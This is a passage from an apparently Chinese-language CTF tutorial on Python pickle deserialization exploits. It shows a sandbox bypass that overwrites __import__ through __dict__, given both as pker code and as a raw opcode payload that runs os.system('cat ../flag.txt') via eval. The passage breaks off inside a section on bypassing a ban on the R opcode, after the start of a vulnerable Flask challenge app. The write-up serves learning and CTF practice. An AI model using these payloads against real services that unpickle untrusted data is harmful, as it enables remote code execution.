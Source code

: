 然而我们不能直接getattr()=getattr()这样覆盖`__import__`，我们还需要`__dict__`的帮忙。`__dict__`是一个列表，存储并决定了一个对象的所有属性，如果它的内容被改变，属性也会跟着改变。

所以整合一下上面的思路：我们先要引入助手list`structs.__dict__`，取出structs空模块的内建函数（一个待取的dict）`structs.__builtins__`和我们需要的魔术方法`structs.__getattribute__`。之后从内建函数`structs.__builtins__`中将键名为`__import__`的值替换为`structs.__getattribute__`，然后借助`__dict__`将structs的structs属性覆盖为修改后的内建函数。这时，我们再次用b'c'从structs中引入get时触发find_class()中的`__import__`，也就相当于在执行`structs.__getattribute__('structs').get`，这样我们就拿到了get方法。而之前我们又已经替换了structs属性为内建函数`__builtins__`，所以利用这个得到的get方法就可以从`__builtins__`中取出eval，执行代码了。之后执行代码的部分同上面的sys.modules的思路。

pker

```python
__dict__ = GLOBAL('structs', '__dict__')
__builtins__ = GLOBAL('structs', '__builtins__')
gtat = GLOBAL('structs', '__getattribute__')
__builtins__['__import__'] = gtat
__dict__['structs'] = __builtins__
builtin_get = GLOBAL('structs', 'get')
eval = builtin_get('eval')
eval('pickle.sys.modules['os'].system('cat ../flag.txt')')
return
```

opcode

```
b"cstructs\n__dict__\np0\n0cstructs\n__builtins__\np1\n0cstructs\n__getattribute__\np2\n0g1\nS'__import__'\ng2\nsg0\nS'structs'\ng1\nscstructs\nget\np5\n0g5\n(S'eval'\ntRp6\n0g6\n(S'pickle.sys.modules['os'].system('cat ../flag.txt')'\ntR."
```
{{% /spoiler %}}

### 禁止`b'R'`操作码

也就相当于不可以用`__reduce__`，有以下几种应对方法（以下方法同样可以单独使用鸭！！！），变量覆盖（无直接代码执行）或利用`b'i'`，`b'i'`，`b'b'`这些操作码来rce。

### -->>变量覆盖

{{% spoiler "栗子7 - [高校战“疫”网络安全分享赛2020] webtmp" %}}
（这个题是缝合的[SJTU 2019]Pickle 以及 [SJTU 2019]Pickle-Revenge的题 = =。限制了`R`操作码，同时重写`find_class()`限制引入模块为`__main__`，两个考点）

```python
import base64
import io
import sys
import pickle

from flask import Flask, Response, render_template, request
import secret


app = Flask(__name__)


class Animal:
    def __init__(self, name, category):
        self.name = name
        self.category = category

    def __repr__(self):
        return f'Animal(name={self.name!r}, category={self.category!r})'

    def __eq__(self, other):
        return type(other) is Animal and self.name == other.name and self.category == other.category


```